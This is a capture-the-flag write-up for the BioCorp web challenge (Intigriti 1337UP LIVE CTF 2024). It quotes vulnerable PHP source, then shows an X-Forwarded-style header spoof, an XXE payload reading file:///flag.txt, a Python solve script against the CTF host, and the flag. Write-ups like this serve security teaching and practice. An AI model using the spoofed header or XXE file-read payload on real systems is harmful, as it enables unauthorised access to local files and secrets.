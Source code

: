 ```yaml
---
name: BioCorp (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for BioCorp (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# BioCorp

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hyi_JZvXOTU/0.jpg)](https://youtu.be/hyi_JZvXOTU "X-Forwarded-For Header Spoofing and XXE")

## Challenge Description

> BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?

## Solution

Players will find a basic website, without much functionality.

![](./images/0.PNG)

![](./images/1.PNG)

The challenge includes source code, so let's check it. One thing that stands out immediately is a hidden control panel, only accessible when using a VPN-related header and IP.

{% code overflow="wrap" %}

```php
$ip_address = $_SERVER['HTTP_X_BIOCORP_VPN'] ?? $_SERVER['REMOTE_ADDR'];
if ($ip_address === '80.187.61.102') {
    echo '<li><a href="panel.php">Control Panel</a></li>';
}
```

{% endcode %}

We can use the match and replace function in burp to insert the header in all of our requests, or we could use a curl command.

![](./images/2.PNG)

Now we can access the panel.

![](./images/3.PNG)

So, what does the panel do? It displays the XML data from the nuclear equipment. However, it also accepts data via a POST request.

{% code overflow="wrap" %}

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && strpos($_SERVER['CONTENT_TYPE'], 'application/xml') !== false) {
    $xml_data = file_get_contents('php://input');
    $doc = new DOMDocument();
    if (!$doc->loadXML($xml_data, LIBXML_NOENT)) {
        echo "<h1>Invalid XML</h1>";
        exit;
    }
} else {
    $xml_data = file_get_contents('data/reactor_data.xml');
    $doc = new DOMDocument();
    $doc->loadXML($xml_data, LIBXML_NOENT);
}

$temperature = $doc->getElementsByTagName('temperature')->item(0)->nodeValue ?? 'Unknown';
$pressure = $doc->getElementsByTagName('pressure')->item(0)->nodeValue ?? 'Unknown';
$control_rods = $doc->getElementsByTagName('control_rods')->item(0)->nodeValue ?? 'Unknown';
```

{% endcode %}

Classic [XXE](https://portswigger.net/web-security/xxe) vulnerability, we can send something like this to receive the flag.

{% code overflow="wrap" %}

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
```

{% endcode %}

Alternatively, automated the whole process into a solve script.

### solve.py

{% code overflow="wrap" %}

```python
import requests

# Target URL and headers
url = "https://biocorp.ctf.intigriti.io/panel.php"
headers = {
    "X-BioCorp-VPN": "80.187.61.102",
    "Content-Type": "application/xml"
}

# XML payload with XXE injection
data = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
"""

# Send the request
response = requests.post(url, headers=headers, data=data)

# Check the response
if response.status_code == 200:
    print("Response received:")
    print(response.text)
else:
    print(f"Request failed with status code {response.status_code}")
```

{% endcode %}

Flag: `INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}`
